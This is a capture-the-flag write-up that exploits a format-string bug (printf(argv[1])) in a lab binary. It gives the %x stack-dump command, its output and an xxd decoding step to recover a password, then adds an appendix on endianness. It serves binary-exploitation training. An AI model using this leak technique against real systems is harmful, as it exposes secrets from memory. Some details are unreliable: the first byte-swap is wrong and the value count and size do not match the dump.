 # Basic Format String

#### Challenge Overview

The challenge is to exploit a **format string vulnerability** in the following C program:

```c
#include <stdio.h>
#include <unistd.h>

int main(int argc, char *argv[]){
	FILE *secret = fopen("/challenge/app-systeme/ch5/.passwd", "rt");
	char buffer[32];
	fgets(buffer, sizeof(buffer), secret);
	printf(argv[1]);
	fclose(secret);
	return 0;
}
```

The vulnerability lies in the `printf(argv[1]);` line, where the input argument is used as a format string without validation. This allows us to leak memory content from the stack.

***

#### Exploitation Process

**Step 1: Dump the Stack with `%x`**

To inspect the stack, we use the following command:

`./ch5 "$(python3 -c 'print("%x " * 20)')"`

This command prints 20 8-byte hexadecimal values from the stack in **little-endian format**. The result of the command is:

`00000020 0804b008 b7e562f3 00000000 08049ff4 00000002 bffffbc4 bffffce2 0000002f 0804b008 39617044 28293664 6d617045 00000a64 b7e564ad b7fd03c4 b7fff000 08048579 9fe96a00 08048570 00000000 00000000 b7e3caf3 00000002`

***

**Step 2: Identify Potential ASCII Values**

From the stack dump, we identify suspicious hexadecimal values:

`39617044 28293664 6d617045 00000a64`

These likely contain ASCII data, as they fall within the range of printable characters.

***

**Step 3: Convert Hexadecimal to ASCII**

Since the stack values are stored in **little-endian format**, we first swap the 4-byte segments to **big-endian format** for proper interpretation:

```bash
39617044 -> 44071693 
28293664-> 64362928 
6d617045 -> 4570616d 
00000a64 -> 640a0000
```

Next, we convert these big-endian values to ASCII using a hexadecimal-to-ASCII converter. For example:

```bash
echo -n "44071693 64362928 4570616d 640a0000" | xxd -r -p
```

This yields the **password or flag**.

#### Key Takeaways

* **Little-Endian to Big-Endian Conversion**: Stack data is stored in little-endian format. Reordering the bytes is critical before decoding.
* **Hexadecimal to ASCII**: Use tools like `xxd` or Python for efficient conversion.

#### Final Notes

You successfully leveraged the format string vulnerability to dump stack memory and identified the flag. This process demonstrates the power of **format string exploits** for memory leakage in binary exploitation.

#### Annexe: Endianness (Little Endian vs. Big Endian)

**Endianness** refers to the order in which bytes are arranged in memory to represent data. There are two main types: **Little Endian** and **Big Endian**.

#### 1. **Little Endian**

In **Little Endian**, the least significant byte (LSB) is stored first, at the lowest memory address.

**Example:**

Consider the hexadecimal value `0x12345678` stored in memory. In **Little Endian**, it will be arranged as:

```yaml
Memory Address: 0x00 0x01 0x02 0x03 
Value: 0x78 0x56 0x34 0x12
```

* **LSB (0x78)** comes first.
* This format is commonly used by **x86 and x86-64 architectures**.

**Advantages:**

* **Hardware efficiency**: Little Endian allows the least significant byte to be accessed directly, which can be useful in certain low-level operations.

#### 2. **Big Endian**

In **Big Endian**, the most significant byte (MSB) is stored first, at the lowest memory address.

**Example:**

For the same value `0x12345678`, in **Big Endian**, it will be stored as:

```yaml
Memory Address: 0x00 0x01 0x02 0x03 
Value: 0x12 0x34 0x56 0x78
```

* **MSB (0x12)** comes first.
* This format is used by **network protocols** (e.g., IP headers), some RISC architectures, and older systems like Motorola processors.

#### 3. **Converting Between Endian Formats**

To convert from Little Endian to Big Endian:

1. Split the hexadecimal number into 4-byte chunks.
2. Reverse the order of the bytes within each chunk.
